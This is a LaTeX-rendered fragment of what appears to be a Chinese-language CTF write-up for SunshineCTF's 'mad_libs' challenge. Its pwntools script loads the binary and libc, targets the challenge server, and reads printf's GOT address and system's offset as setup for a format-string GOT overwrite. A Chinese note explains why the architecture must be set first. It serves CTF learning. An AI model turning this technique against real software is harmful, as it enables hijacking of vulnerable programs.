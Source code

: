 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ sys, time}

\CommentTok{\# !! 重要：pwntools 的 pwnlib.args 會把「看起來像識別字」的命令列參數}
\CommentTok{\#    從 sys.argv 裡刪掉（free\_form=True）。所以 \textasciigrave{}REMOTE\textasciigrave{} 會在 import pwn 後消失，}
\CommentTok{\#    必須在 import 之前先讀。}
\NormalTok{REMOTE\_MODE }\OperatorTok{=} \BuiltInTok{len}\NormalTok{(sys.argv) }\OperatorTok{\textgreater{}} \DecValTok{1} \KeywordTok{and}\NormalTok{ sys.argv[}\DecValTok{1}\NormalTok{].upper() }\OperatorTok{==} \StringTok{"REMOTE"}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{HOST, PORT }\OperatorTok{=} \StringTok{"chal.sunshinectf.games"}\NormalTok{, }\DecValTok{26001}
\NormalTok{HERE }\OperatorTok{=}\NormalTok{ os.path.dirname(os.path.abspath(}\VariableTok{\_\_file\_\_}\NormalTok{))}

\NormalTok{context.arch }\OperatorTok{=} \StringTok{"amd64"}
\NormalTok{context.log\_level }\OperatorTok{=} \StringTok{"info"}

\NormalTok{elf  }\OperatorTok{=}\NormalTok{ ELF(os.path.join(HERE, }\StringTok{"mad\_libs"}\NormalTok{),  checksec}\OperatorTok{=}\VariableTok{False}\NormalTok{)   }\CommentTok{\# 讀 GOT offset}
\NormalTok{libc }\OperatorTok{=}\NormalTok{ ELF(os.path.join(HERE, }\StringTok{"libc.so.6"}\NormalTok{), checksec}\OperatorTok{=}\VariableTok{False}\NormalTok{)   }\CommentTok{\# 讀 system offset}

\NormalTok{PRINTF\_GOT }\OperatorTok{=}\NormalTok{ elf.got[}\StringTok{"printf"}\NormalTok{]        }\CommentTok{\# 0x4010（不寫死，直接讀 ELF）}
\NormalTok{SYSTEM     }\OperatorTok{=}\NormalTok{ libc.symbols[}\StringTok{"system"}\NormalTok{]   }\CommentTok{\# 0x58740}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※注意 \texttt{context.\allowbreak{}arch\ \allowbreak{}=\ \allowbreak{}"amd64"} \textbf{一定要在呼叫
\texttt{fmtstr\_\allowbreak{}payload()} / \texttt{p64()} 之前}設好。 沒設的話
pwntools 會用預設的 32-bit 來打包位址，你會看到
\texttt{ValueError:\allowbreak{}\ \allowbreak{}pack():\allowbreak{}\ \allowbreak{}number\ \allowbreak{}does\ \allowbreak{}not\ \allowbreak{}fit\ \allowbreak{}within\ \allowbreak{}word\_\allowbreak{}size}（8
bytes 的位址塞不進 4 bytes）。 同理，\texttt{SigreturnFrame()}
也需要它（見 \texttt{wp/\allowbreak{}00\_\allowbreak{}基礎知識\_\allowbreak{}從零開始.\allowbreak{}md} §11.4）。
\end{quote}
\end{document}
